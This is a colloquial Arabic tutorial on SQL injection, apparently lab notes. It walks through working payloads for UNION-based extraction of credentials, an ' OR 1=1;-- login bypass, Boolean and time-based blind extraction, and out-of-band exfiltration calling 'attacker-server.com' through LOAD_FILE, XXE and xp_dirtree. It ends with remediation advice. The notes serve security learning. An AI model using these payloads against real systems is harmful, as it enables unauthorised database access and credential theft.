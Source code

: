 # SQL injection

<details>
   <summary> in-band SQLI </summary>

🧪 الجزء العملي - خطوة بخطوة
1. اكتشاف الثغرة:
افتح المتصفح، وروح للرابط اللي فيه id=1.

جرب تحط ' بعد الرقم كده:


```
id=1'
```
هتلاقي رسالة خطأ ظهرت.
ده معناه إن المدخل بتاعك داخل فعلاً جوه استعلام SQL، وده تأكيد إن فيه ثغرة.

2. نبدأ نستغلها بـ UNION
جرب كده:

```
id=1 UNION SELECT 1
```
هتلاقي رسالة خطأ بتقولك إن عدد الأعمدة مش متطابق.

جرب تزود الأعمدة:
```
id=1 UNION SELECT 1,2
```
لسه في Error؟ زود كمان:

```
id=1 UNION SELECT 1,2,3
```
كده اشتغل! ليه؟ لأن الاستعلام الأصلي بيرجع 3 أعمدة، فلازم الاتحاد يكون بنفس العدد.

3. نخلي الـ UNION يشتغل لوحده
يعني نمنع الاستعلام الأصلي من إرجاع نتيجة.

اعمل id=0 بدلاً من 1:
```
id=0 UNION SELECT 1,2,3
```
كده الصفحة هتعرض النتائج اللي انت رجعتها.

4. نعرض اسم قاعدة البيانات:
```
id=0 UNION SELECT 1,2,database()
```
هيظهر لك اسم قاعدة البيانات، مثلاً: sqli_one.

5. نعرض أسماء الجداول داخل قاعدة البيانات:
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
النتيجة:
```
article,staff_users
```

يبقى فيه جدول اسمه staff_users ده غالبًا فيه اليوزرز.

6. نعرف أسماء الأعمدة داخل جدول staff_users:
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
النتيجة:
```
id,username,password
```

7. نجيب اليوزرات والباسوردات:
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
هتلاقي النتائج بتظهر كده:

```
martin:123456
admin:qwerty
```


✅ ملخص سريع:

الخطوة | الهدف
------------|---------------------
' | تأكد وجود الثغرة
UNION SELECT 1,2,3 | تأكد من عدد الأعمدة
database() | جبت اسم قاعدة البيانات
information_schema.tables | جبت أسماء الجداول
information_schema.columns | جبت أسماء الأعمدة
staff_users | جبت البيانات الحساسة زي الباسورد

  
</details>






<details>
     <summary>Blind SQLI (Authentication Bypass)</summary>

      🕶️ Blind SQL Injection (الحقنة العمياء)
يعني إيه "Blind"؟
يعني مافيش رسائل خطأ، ولا داتا طالعة على الشاشة تقولك إن الهجمة نجحت.

لكن بالرغم من كده، الحقنة (injection) شغالة، بس السيرفر مابيظهرلكش حاجة مباشرة تقولك كده.

🧠 طيب نستفيد منها إزاي؟
كل اللي إحنا محتاجينه هو "رد فعل بسيط" من الموقع.
يعني مثلاً:

لو طلعلك صفحة معينة = الاستعلام نجح.

لو فضلك على نفس الصفحة = الاستعلام فشل.

وده كفاية إننا نبدأ نشتغل ونستخرج معلومات من قاعدة البيانات حتى لو بشكل بطيء.

🔓 Bypassing Authentication (تخطي تسجيل الدخول)
دي واحدة من أسهل الطرق في Blind SQLi، وممكن نكسر بيها فورم تسجيل الدخول.

🤔 إزاي بيشتغل تسجيل الدخول أصلاً؟
الموقع بيعمل استعلام بالشكل ده:

```
SELECT * FROM users WHERE username = 'ali' AND password = '123456' LIMIT 1;
```
لو فيه مستخدم بالبيانات دي، الاستعلام بيرجع صف واحد → يبقى المستخدم يدخل.

📌 إحنا نعمل إيه؟ نضحك على الاستعلام!
بدل ما نحاول نخمن Username وPassword، إحنا هنخلي الاستعلام يرجع نتيجة مهما كانت البيانات غلط.

🎯 الطريقة:
في خانة الـ Password، نكتب:

```
' OR 1=1;--
```
ده بيحوّل الاستعلام إلى:

```
SELECT * FROM users WHERE username = '' AND password = '' OR 1=1;--
```
شرحها:

'' AND '' → ده هيرجع false.

OR 1=1 → ده true دايمًا.

-- → ده بيعلّق باقي الاستعلام (يعني أي حاجة بعده مش بتتنفذ).

فالاستعلام كله بيرجع true، وكأنك سجلت دخولك بنجاح، حتى من غير Username أو Password!

✅ النتيجة:
لو الموقع معمول بشكل غير آمن، هيسمحلك بالدخول من غير بيانات صحيحة.

🛠️ ملحوظة مهمة:
لو ما نفعش:

جرب أنواع مختلفة من علامات التنصيص: " OR 1=1-- أو حتى ') OR ('1'='1.

جرب تحط القيمة في خانة الـ Username بدل Password.

🔐 ملخص سريع:



   العنصر | الوصف
   -------------|----------------
الهدف | تخطي تسجيل الدخول
نوع الهجوم | Blind SQLi
الوسيلة | استغلال منطق التحقق من صحة البيانات
الباي لود | ' OR 1=1;--
        
</details>






<details>
   <summary>Blind SQLi - (Boolean Based)</summary>

   🕵️‍♂️ يعني إيه Boolean-Based Blind SQL Injection؟
النوع ده من الـ SQLi بيشتغل على إنك ما بتاخدش بيانات واضحة من السيرفر، لكن السيرفر بيرد عليك بـ حاجة ثنائية (صح أو غلط)، زي:

true / false

1 / 0

yes / no

أو مثلًا تظهر صفحة أو ما تظهرش.

والحيلة هنا إنك تراقب رد الفعل على الاستعلام، مش البيانات نفسها.

🎯 المثال العملي:
رابط زيه كده:

```
https://website.thm/checkuser?username=admin
```
الرد بيكون حاجة شبه:

```
{"taken":true}
```
يعني اسم المستخدم موجود.

لو كتبنا:

```
https://website.thm/checkuser?username=admin123
```
هيكون الرد:

```
{"taken":false}
```
يعني الاسم مش موجود.

فهمنا كده إن فيه API بتشيك هل اسم المستخدم موجود ولا لأ.

🛠️ الاستعلام اللي السيرفر بيشغله غالبًا شكله كده:
```
SELECT * FROM users WHERE username = '%username%' LIMIT 1;
```
واحنا بنقدر نتحكم في %username% من خلال الرابط.

✅ الهدف الأول: نعرف عدد الأعمدة
نبدأ نضيف استعلام UNION، ونجرب نعرف عدد الأعمدة في الجدول.
نجرب مثلاً:

```
admin123' UNION SELECT 1;--
```
لو السيرفر رجّع false → يبقى عدد الأعمدة مش 1.
نزيد شوية:

```
admin123' UNION SELECT 1,2;--
```
برضو false → مش 2.

لحد ما نوصل:

```
admin123' UNION SELECT 1,2,3;--
```
وهنا هنلاقي {"taken": true}
يبقى كده عرفنا إن الجدول بيرجع 3 أعمدة. ✅

🔍 الهدف الثاني: نعرف اسم قاعدة البيانات
نستخدم الدالة database() اللي بترجع اسم قاعدة البيانات الحالية.

نجرب حاجة بسيطة:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```
% معناها أي حاجة، فالنتيجة هتبقى true.

نجرب نحصر أكتر:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--
```
لو النتيجة false → يبقى الاسم مش بيبدأ بـ a.

نكمل نحاول بالحروف:

b%

c%

... لحد ما نلاقي:

```
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--
```
يعني الاسم بيبدأ بـ s.

نبدأ نحاول حرف حرف:

sa%

sb%

sq%

...

لحد ما نوصل لـ sqli_three ✅

🧱 الهدف الثالث: نكتشف أسماء الجداول
نروح على information_schema.tables ونستخدم نفس الطريقة:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'a%';--
```
لو false → نغير الحرف.

نجرب لحد ما نلاقي:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name='users';--
```
يبقى فيه جدول اسمه users ✅

🧩 الهدف الرابع: نكتشف أسماء الأعمدة في جدول users
نروح على:

```
information_schema.columns
```
ونجرب:

```
admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema='sqli_three' AND table_name='users' AND column_name LIKE 'a%';--
```
كل مرة نكتشف عمود، نستبعده عشان نكمل نجيب الباقي:

```
... AND column_name != 'id'
```
وهكذا نكررها لحد ما نكتشف الأعمدة:

id

username

password ✅

🔐 الهدف الأخير: نكتشف بيانات المستخدم (اسم وكلمة مرور)
نبدأ باسم المستخدم:
```
admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--
```
نكرر لحد ما نعرف إن فيه username اسمه admin.

بعد كده نجيب الباسورد:
```
admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '3%';--
```
نجرب حرف حرف لحد ما نوصل للباسورد الكامل:

```
3845 ✅
```
🎉 النتيجة:
قدرنا من غير ما نشوف بيانات مباشرة نعرف:

اسم قاعدة البيانات.

اسم الجدول.

أسماء الأعمدة.

اسم المستخدم.

الباسورد.

وكل ده عن طريق الملاحظة الذكية لردود السيرفر.
   
   
</details>













<details>
   <summary>Blind SQLi - (Time Based)</summary>

   ⏱️ إيه هو Time-Based Blind SQL Injection؟
النوع ده بيشتغل على مبدأ:

"لو الاستعلام اتحقق صح، نفّذ SLEEP(x) واتأخر في الرد."

ولو ما اتأخرش، يبقى الاستعلام فشل أو ما تنفذش بالطريقة اللي إحنا عايزينها.

🔧 بنستخدم فين SLEEP()؟
في قواعد البيانات زي MySQL، فيه دالة اسمها SLEEP(5) بتخلّي السيرفر يستنى 5 ثواني قبل ما يرد.

💡 الهدف الأول: نعرف عدد الأعمدة
بنبدأ باستعلام بسيط زي:

```
admin123' UNION SELECT SLEEP(5);--
```
لو السيرفر ما اتأخرش → يبقى الاستعلام غلط.

نزوّد عمود كده:

```
admin123' UNION SELECT SLEEP(5), 2;--
```
لو حصل تأخير 5 ثواني → يبقى عدد الأعمدة = 2 ✅

لو ما حصلش، نزود:

```
admin123' UNION SELECT SLEEP(5), 2, 3;--
```
ونكمل لحد ما نحصل على التأخير → ده معناه إننا عرفنا عدد الأعمدة.

🧱 زي boolean-based، نكمل بنفس الطريقة لكن بنقيس الوقت:
🧠 اكتشاف اسم قاعدة البيانات:
نستخدم database() ومعاها شرط LIKE وسليب:

```
admin123' UNION SELECT SLEEP(5), 2 WHERE database() LIKE 's%';--
```
لو حصل تأخير → يبقى الاسم بيبدأ بـ s
لو ما حصلش → جرّب حرف تاني (a%, b%, c%, ...)

نكمّل حرف حرف:

sa%

sql%

sqli_t% ... لحد ما نوصل لـ sqli_three ✅

🧩 اكتشاف الجداول:
نروح على information_schema.tables ونكتب:

```
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'u%';--
```
لو حصل تأخير → فيه جدول بيبدأ بـ u.

نجرّب أكتر لحد ما نجيب:

```
table_name = 'users'
```
🧠 اكتشاف الأعمدة:
نكرر نفس الفكرة:

```
admin123' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema='sqli_three' AND table_name='users' AND column_name LIKE 'u%';--
```
كل مرة نكتشف عمود نعمل:

```
... AND column_name != 'username'
```
ونكررها لحد ما نكتشف: id, username, password ✅

🔓 استخراج بيانات الدخول:
أولًا: نجيب اسم المستخدم
```
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username LIKE 'a%';--
```
لحد ما نوصل لـ admin

ثانيًا: نجيب الباسورد
```
admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password LIKE '3%';--
```
نكمل:

38%

384%

3845 ✅

🎉 الخلاصة:
بالـ Time-Based SQLi:

بنكتشف الأعمدة من خلال زمن التأخير.

بنكرر نفس خطوات Boolean-Based لكن بذكاء مع الزمن.

الاختبار الحقيقي في المثابرة والتجريب واحدة واحدة.
   
</details>









<details>
   <summary>Out-of-Band SQLi</summary>

   📡 إيه هو Out-of-Band SQLi؟
النوع ده مش بيعتمد على ظهور بيانات مباشرة في الصفحة (زي In-Band)
ولا على تأخيرات أو استجابات منطقية (زي Boolean أو Time-based)

إنما بيعتمد على فكرة مختلفة شوية:

"أنا هبعت حاجة في الاستعلام تخلي قاعدة البيانات تتصل بجهازي أو سيرفر خارجي، وتبعتلي منه البيانات!"

يعني فيه قناتين:

🎯 قناة الهجوم = الريكوست اللي انت بعتّه للسيرفر (مثلاً POST أو GET).

📥 قناة التجميع = الاتصال اللي بيحصل من قاعدة البيانات لجهازك، زي DNS أو HTTP.

🧠 ازاي بيحصل الهجوم ده؟
خلينا نوضحها بخطوات:

🔍 تكتشف نقطة SQLi (زي أي نوع تاني).

💉 تكتب Payload خاص بيستخدم دوال زي:

LOAD_FILE()

xp_dirtree (في MSSQL)

UTL_HTTP.REQUEST() (في Oracle)

أو dnslookup() لو قاعدة البيانات تدعمها.

🌐 الاستعلام يجبر قاعدة البيانات تبعت طلب خارجي (DNS أو HTTP) لسيرفر انت بتتحكم فيه.

🛰️ انت بتراقب السيرفر ده، وتشوف البيانات وهي بتجيلك من الـ payload.

🧪 مثال عملي: (MySQL)
لو عندك دومين أو سيرفر انت بتملكه زي:

```
attacker-server.com
```
تكتب في خانة vulnerable:


```
' UNION SELECT LOAD_FILE('\\\\attacker-server.com\\data')--
```
أو (لو تشتغل مع MySQL/DNS):

```
'; SELECT extractvalue(xmltype('<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % ext SYSTEM "http://attacker-server.com"> %ext;]>'),'/');--
```
ده يجبر قاعدة البيانات إنها تحاول تفتح اتصال HTTP لسيرفرك، وفيه ممكن تحط البايلود يبعَتلك داتا.

💡 في MSSQL:
```
'; exec master..xp_dirtree '\\attacker-server.com\share';--
```
ده بيخلي السيرفر يحاول يتصل على SMB Share، وده انت بتراقبه من جهازك أو سيرفرك.

🛠️ إزاي أراقب الطلبات دي؟
تشغّل أداة على جهازك أو سيرفرك زي:

🧰 Burp Collaborator أو

🛡️ Responder (لـ SMB)

🐍 أو حتى Script Python بـ Flask أو SimpleHTTPServer

🔬 DNS server مخصص، زي dnslog.cn

📛 ملحوظات مهمة:
النوع ده مش دايمًا بيشتغل، لأنه بيعتمد على:

إعدادات قاعدة البيانات

وجود صلاحيات كافية

إن الـ firewall ميسدّش الـ outgoing requests


🔐 الخلاصة:


العنصر | النوع
----------|----------------
طريقته | قناة هجوم + قناة استقبال خارجي
أدوات مساعدة | DNSLog / Burp Collaborator / Responder
يعتمد على | إرسال بيانات خارجية (HTTP, DNS, SMB)
فعال لما؟ | لما باقي الأنواع ماتديش أي feedback


   
</details>







---

## **``Remediation``**



🛡️ إزاي نحمي التطبيق من SQL Injection؟
فيه 3 وسائل أساسية اتكلم عنها الكلام اللي فوق، وهنشرح كل واحدة:

1. ✅ Prepared Statements (الاستعلامات المجهزة مسبقًا)
📌 يعني إيه؟
بدل ما تكتب الكود كده:

```
"SELECT * FROM users WHERE username = '" + userInput + "'"
```
بتكتبه بالشكل الآمن ده:

🔒 مثال آمن بلغة PHP (PDO):
```
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$userInput]);
```
أو بلغة Python:

```
cursor.execute("SELECT * FROM users WHERE username = %s", (user_input,))
```
✅ ده بيخلي الـ DB تعرف الفرق بين الكود والداتا، ومفيش injection ممكن يحصل.

2. 🧼 Input Validation (التحقق من البيانات)
📌 يعني إيه؟
تتأكد إن المستخدم بيكتب الحاجة اللي المفروض يكتبها فقط.

مثلًا: لو خانة فيها رقم، ماينفعش تقبل حروف أو رموز.

🔒 أمثلة:
في خانة ID → لازم يكون رقم بس (123)

في خانة username → تمنع الرموز الغريبة (< > ' " %)

📋 أفضل طريقة؟

استخدم Allow List (يعني تحدد إيه المسموح بيه بدل ما تمنع إيه الممنوع)

مثال: تقبل حروف A-Z و 0-9 بس.

3. 🔐 Escaping User Input (تخبيط الرموز الخطيرة)
📌 يعني إيه؟
لو المستخدم كتب حاجة فيها ' أو " أو \، دي رموز ممكن تخرب الاستعلام وتسبب injection.

🔧 الحل:
"Escape" الرموز دي يعني تضيف \ قبلها.

مثال: ' تتحول لـ \'

📌 معظم لغات البرمجة أو مكتبات الـ SQL بتوفر دوال بتعمل كده تلقائي، بس مش دايمًا كفاية لوحدها.

✅ خلاصة الكلام:


الطريقة | الحماية من
-------------|-----------------
✅ Prepared Statements | SQLi تمامًا
✅ Input Validation | تقليل المخاطر جدًا
✅ Escaping User Input | حماية إضافية، بس مش كفاية لوحدها
















